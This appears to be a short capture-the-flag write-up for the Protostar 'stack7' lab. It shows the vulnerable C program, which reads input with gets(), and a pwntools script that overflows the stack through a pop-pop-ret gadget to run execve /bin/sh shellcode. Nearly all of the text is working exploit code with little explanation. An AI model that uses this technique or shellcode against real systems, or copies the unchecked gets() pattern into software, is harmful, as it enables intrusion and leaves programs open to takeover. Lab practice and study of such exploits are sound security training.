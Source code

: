 ```
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();

}
```
Here is the final stack challenge on Protostar. The objective is to get a shell through abusing the "pop pop ret" gadget to have our shellcode executed.

I have used this same idea with different gadgets before, so I will just leave the exploit code for this one

### Exploit Code
```
from pwn import *

exe = context.binary = ELF('stack7')

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

offset = 'A' * 80
pop_pop_ret = p32(0x08048492)
junk = "A" * 8
shell_addr = p32(0xffffd15a+20)
shell_code = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
nop_slide = "\x90" * 80


payload = offset + pop_pop_ret + junk + shell_addr + nop_slide + shell_code
io.sendline(payload)
```